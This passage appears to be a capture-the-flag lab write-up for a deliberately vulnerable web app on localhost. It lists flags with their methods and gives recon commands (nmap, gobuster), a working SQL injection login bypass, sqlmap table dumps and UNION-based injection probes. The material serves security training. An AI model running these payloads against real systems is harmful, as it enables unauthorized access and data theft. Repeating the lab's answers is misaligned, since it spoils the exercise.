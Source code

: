3. **FLAG{sql_injection_master_b4d1c0d3}**
   - **Method**: SQL injection login bypass
   - **Location**: Dashboard setelah login admin

4. **FLAG{xss_found_h3r3}**
   - **Method**: Search employee "Alice" 
   - **Location**: Employee notes (XSS payload)

5. **FLAG{admin_access_s3cr3t_pr0j3ct}**
   - **Method**: Admin panel access
   - **Location**: /admin/secrets.php

6. **FLAG{vault_master_mystery_solved_c0mpl3t3}**
   - **Method**: Security vault access
   - **Location**: /admin/vault.php

## 🛠️ Tools & Commands Used

### Reconnaissance
```bash
# Nmap scanning
nmap -p- localhost
nmap -sV -p 8080,8081,3306 localhost

# Directory enumeration
gobuster dir -u http://localhost:8080 -w /usr/share/wordlists/dirb/common.txt
gobuster dir -u http://localhost:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# Manual enumeration
curl http://localhost:8080/robots.txt
curl http://localhost:8080/backup/database.sql

# Network traffic analysis
wget http://localhost:8080/network-logs/admin_traffic.pcap
strings admin_traffic.pcap | grep -i admin
curl http://localhost:8080/network-logs/network_analysis.log
```

### SQL Injection
```bash
# Manual testing
curl -X POST http://localhost:8080/ -d "username=admin' OR '1'='1'-- &password=test&login=Login"

# SQLmap (optional)
sqlmap -u "http://localhost:8080/dashboard.php?search=test" --dbs
sqlmap -u "http://localhost:8080/dashboard.php?search=test" -D mystery_corp --tables
sqlmap -u "http://localhost:8080/dashboard.php?search=test" -D mystery_corp -T users --dump
```

### Web Application Testing
```bash
# Manual SQL injection testing
curl -X GET "http://localhost:8080/dashboard.php?search=%27%20ORDER%20BY%204%23"
curl -X GET "http://localhost:8080/dashboard.php?search=%27%20UNION%20SELECT%20%27test%27,NULL,NULL,NULL%23"

# Burp Suite
# - Intercept requests
# - Test systematic SQL injection payloads
# - Analyze column structure and data extraction
```
